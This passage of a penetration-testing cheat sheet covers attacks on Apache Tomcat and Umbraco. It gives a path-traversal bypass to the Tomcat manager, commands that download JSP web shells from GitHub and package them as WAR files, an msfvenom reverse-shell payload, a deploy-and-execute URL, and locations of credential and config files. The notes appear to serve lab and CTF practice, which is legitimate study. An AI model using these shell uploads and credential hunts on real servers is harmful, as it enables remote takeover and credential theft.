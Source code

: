 	- `http://10.10.11.138/damuna/..;/manager/` -> Apache sees that as three directories deep, but Tomcat will process `/..;/` as the parent directory

### Authenticated Exploit

- **Shell Upload**
	- if only manager-script is available, the upload is only possible via `/manager/text` -> [guide](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00)
  - Metasploit automated:
     [multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) 
  - WAR shell:
    - Download from `jsp`
      ```bash
      wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp; zip -r backup.war cmd.jsp
      ```
    - Very Light `jsp` shell and stealty
      ```bash
      wget https://raw.githubusercontent.com/SecurityRiskAdvisors/cmd.jsp/refs/heads/master/cmd.jsp; zip -r backup.war cmd.jsp
      ```
      Change Uploaded Casing → `FileOutputStream(f);stream.write(m);o="uPlOaDeD:`
    - Metasploit:
      ```bash
      msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > backup.war
      ```

  - Browse & Upload → Deploy → Request `[URL]/backup/cmd.jsp?p=[CMD]`
- **Applications exploits**
	- `Log4Shell` in `idle` application parameter 
### File Hunting
- look for `tomcat-users.xml`
- `/usr/share/tomcat9/etc/tomcat-users.xml`
- `/etc/tomcat9/tomcat-users.xml`
- `/usr/local/tomcat/conf/tomcat-users.xml`
## Umbraco

### Credential Hunting

##### Where to Find the Database

- **`web.config`** or **`appsettings.json`** (in newer versions) contains the database connection string.
- Look for a connection string named **`umbracoDbDSN`** or similar.
    
##### Backup Files

- If you have a **`/data/`** or **`/App_Data/`** folder, check for:
    - **`Umbraco.sdf`** (SQL CE database, older versions)
	    - `strings Umbraco.sdf | head`
    - **`.mdf` or `.ldf`** (SQL Server files)
    - **`umbraco.config`** (but credentials are not stored here)
